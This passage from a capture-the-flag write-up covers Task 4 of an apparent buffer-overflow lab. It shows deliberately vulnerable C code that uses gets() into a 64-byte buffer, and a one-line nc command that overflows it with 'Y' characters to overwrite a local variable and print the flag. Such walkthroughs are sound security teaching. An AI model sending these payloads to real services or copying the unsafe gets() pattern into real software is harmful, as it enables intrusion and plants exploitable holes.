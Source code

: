 ## Task 4

Code:

```c
int read_flag(){
        const char* filename = "flag.txt";
        FILE* file = fopen(filename, "r");
        if(!file){
            puts("the file flag.txt is not in the current directory, please contact support\n");
            exit(1);
        }
        char ch;
        while ((ch = fgetc(file)) != EOF) {
        putchar(ch);
    }
    fclose(file);
}

int main(){
    
    setup();
    banner();
    int admin = 0;
    int guess = 1;
    int check = 0;
    char buf[64];

    puts("Please Go ahead and leave a comment :");
    gets(buf);

    if (admin==0x59595959){
            read_flag();
    }

    else{
        puts("Bye bye\n");
        exit(1);
    }
}
```

Same as before. `0x59` is 'Y':

```bash
echo -e "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY" | nc 10.10.88.29 9004
```

Here I did what I suggested for the previous task, and didn't bother finding the offset. Instead I just threw lots of 'Y's at it until it worked.

## Task 5
